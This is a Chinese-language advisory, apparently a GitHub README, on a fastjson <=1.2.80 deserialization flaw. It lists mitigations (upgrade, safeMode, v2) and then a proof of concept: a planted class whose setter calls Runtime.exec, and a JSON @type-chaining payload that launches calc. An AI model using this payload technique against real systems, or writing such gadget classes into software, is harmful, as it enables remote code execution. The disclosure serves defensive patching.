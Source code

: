# fasjton 1.2.80版本反序列化漏洞：POC代码及规避方案（20220523）



## 1. 漏洞描述

fastjson已使用黑白名单用于防御反序列化漏洞，经研究该利用在特定条件下可绕过默认autoType关闭限制，攻击远程服务器，风险影响较大。建议fastjson用户尽快采取安全措施保障系统安全。



## 2. 影响版本

1.2.80及以下版本，即 <= 1.2.80。



## 3. 规避方案（以下任选一种）

### 3.1  升级到最新版本1.2.83

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.83</version>
</dependency>
```



### 3.2 开启safeMode

参考：https://github.com/alibaba/fastjson/wiki/fastjson_safemode



### 3.2.1 java代码中设置

```java
ParserConfig.getGlobalInstance().setSafeMode(true);
```





### 3.2.2 JVM参数中设置

```shell
-Dfastjson.parser.safeMode=true
```

![jvm参数设置](./pics/jvm_poc20220523.png)



### 3.2.3 配置文件设置

```properties
# fastjson.properties 
fastjson.parser.safeMode=true
```

![fastjson.properties 设置](./pics/properties_poc20220523.png)



## 3.3 使用fastjson v2版本，与v1版本不兼容



## 4. POC代码



poc类（代码中需要有该类）

```java
package com.example.fastjson.poc20220523;

import java.io.IOException;

public class Poc20220523 extends Exception {
    public void setName(String str) {
        try {
            Runtime.getRuntime().exec(str);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```



攻击代码：

主要是构造json串：

```json
{
	"@type": "java.lang.Exception",
	"@type": "com.example.fastjson.poc20220523.Poc20220523",
	"name": "calc"
}
```

java代码解析：

```java
    public static void main(String[] args) {
        String json = "{\"@type\":\"java.lang.Exception\",\"@type\":\"com.example.fastjson.poc20220523.Poc20220523\",\"name\":\"calc\"}";
        JSON.parse(json);
    }
```



效果截图：

![效果截图：](./pics/poc_calc_poc20220523.png)







## 5. 代码地址：

https://github.com/YoungBear/FastjsonPoc
